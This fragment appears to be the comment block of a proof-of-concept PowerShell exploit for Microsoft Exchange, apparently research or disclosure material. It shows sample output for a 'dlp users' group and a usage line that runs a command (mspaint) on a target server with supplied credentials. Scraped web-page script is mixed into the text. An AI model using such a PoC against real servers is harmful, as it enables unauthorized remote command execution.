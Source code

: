     # ExchangeVersion             : 0.10 (14.0.100.0)
    # Name                        : dlp users
    # DistinguishedName           : CN=dlp users,OU=Microsoft Exchange Security Groups,DC=exchangedemo,DC=com
    # Guid                        : fa5c8458-8255-4ffd-b128-2a66bf9dbfd6
    # ObjectCategory              : exchangedemo.com/Configuration/Schema/Group
    # ObjectClass                 : {top, group}
    # WhenChanged                 : 6/12/2020 11:29:31 PM
    # WhenCreated                 : 6/12/2020 11:29:31 PM
    # WhenChangedUTC              : 6/12/2020 3:29:31 PM
    # WhenCreatedUTC              : 6/12/2020 3:29:31 PM
    # OrganizationId              :
    # Id                          : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
    # OriginatingServer           : DEAD01.exchangedemo.com
    # ObjectState                 : Changed
    #
    # Example:
    #
    # PS C:\Users\researcher> .\poc.ps1 -server WIN-0K4AOM2JIN6.exchangedemo.com -usr <a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="f49c9586868d99b4918c979c959a93919091999bda979b99">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script> -pwd user123### -cmd mspaint